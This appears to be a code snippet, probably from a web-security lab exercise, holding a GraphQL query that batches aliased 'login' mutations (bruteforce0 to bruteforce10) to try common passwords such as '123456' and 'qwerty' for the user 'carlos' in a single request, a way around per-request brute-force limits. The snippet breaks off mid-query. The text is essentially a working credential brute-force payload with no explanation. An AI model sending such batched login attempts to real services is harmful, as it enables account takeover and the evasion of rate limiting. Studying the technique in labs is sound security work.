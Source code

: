 ```plain
bruteforce0:login(input:{password: "123456", username: "carlos"}) {
        token
        success
    }


bruteforce1:login(input:{password: "password", username: "carlos"}) {
        token
        success
    }


bruteforce2:login(input:{password: "12345678", username: "carlos"}) {
        token
        success
    }


bruteforce3:login(input:{password: "qwerty", username: "carlos"}) {
        token
        success
    }


bruteforce4:login(input:{password: "123456789", username: "carlos"}) {
        token
        success
    }


bruteforce5:login(input:{password: "12345", username: "carlos"}) {
        token
        success
    }


bruteforce6:login(input:{password: "1234", username: "carlos"}) {
        token
        success
    }


bruteforce7:login(input:{password: "111111", username: "carlos"}) {
        token
        success
    }


bruteforce8:login(input:{password: "1234567", username: "carlos"}) {
        token
        success
    }


bruteforce9:login(input:{password: "dragon", username: "carlos"}) {
        token
        success
    }


bruteforce10:login(input:{password: "123123", username: "carlos"}) {
        token
        success
```